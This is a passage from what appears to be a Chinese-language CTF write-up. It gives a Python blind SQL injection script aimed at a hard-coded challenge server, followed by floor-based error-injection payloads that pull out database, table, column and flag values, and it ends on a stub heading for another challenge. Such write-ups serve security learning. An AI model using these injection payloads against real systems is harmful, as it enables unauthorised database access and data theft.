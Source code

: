 过滤了`<``>``substr``mid``if`

直接上脚本

```python
#coding=utf-8

import requests
chars = "abcdefghijklmnopqtrstuvwxyz{}QWERTYUIOPASDFGHJKLZXCVBNM1234567890_,-.@&%/^!~"
url = "http://47.100.242.70:4003/check.php"
result=""
for i in range(50):
    for char in chars:
        username = ("admin' and left(database(),{})="+"'"+result+"{}"+"'#").format(i,char)
        #print(username)
        #username = ("admin' and left((select table_name from information_schema.tables where table_schema=database()),{})=" + "'" + result + "{}" + "'#").format(i, char)
        #username = ("admin' and left((select group_concat(column_name) from information_schema.columns where table_name='syclover'),{})=" + "'" + result + "{}" + "'#").format(i, char)
        #username = ("admin' and left((select group_concat(flag) from syclover),%d)=" + "'" + result + "%c" + "'#")%(i,char)
        data = {"uname":username,"pwd":"123456","wp-submit":"%E7%99%BB%E5%BD%95"}
        response = requests.post(url=url,data=data)
        r = response.text
        if(len(r)==96):
            result=result+char
            print(result)
```

但是这个题可以使用报错注入

####  报错注入

floor报错注入

```
floor报错注入
查询数据库: -1' union select 1,2,3,4 from (select count(*),concat(floor(rand(0)*2), (select concat('#',right((SELECT group_concat(schema_name) from information_schema.schemata),60))))a from information_schema.tables group by a)b#
查询表: -1' union select 1,2,3,4 from (select count(*),concat(floor(rand(0)*2), (select concat('#',(SELECT group_concat(table_name) from information_schema.tables where table_schema='true____flag'))))a from information_schema.tables group by a)b#
查询列: -1' union select 1,2,3,4 from (select count(*),concat(floor(rand(0)*2), (select concat('#',(SELECT group_concat(column_name) from information_schema.columns where table_name='syclover'))))a from information_schema.tables group by a)b# 
查询flag : -1' union select 1,2,3,4 from (select count(*),concat(floor(rand(0)*2), (select concat('#',(SELECT flag from syclover))))a from information_schema.tables group by a)b#
```



### Easypy

过滤了`.`==>|attr()
